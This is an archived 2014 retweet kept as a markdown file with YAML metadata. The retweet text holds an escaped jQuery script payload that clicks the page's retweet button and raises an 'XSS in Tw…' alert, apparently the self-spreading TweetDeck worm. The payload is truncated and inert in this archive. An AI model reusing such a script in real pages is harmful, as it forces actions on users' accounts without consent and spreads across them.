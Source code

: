 ```yaml
---
date: 2014-06-11 18:12:46+00:00
repost_source:
  name: Dani___Alves
  type: twitter
  url: https://twitter.com/Dani___Alves/statuses/476765438991679488/
source: twitter
syndicated:
- type: twitter
  url: https://twitter.com/roytang/statuses/476789149995761664/
---
```


RT [@Dani___Alves](https://twitter.com/Dani___Alves/): &lt;script class="xss"&gt;$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tw…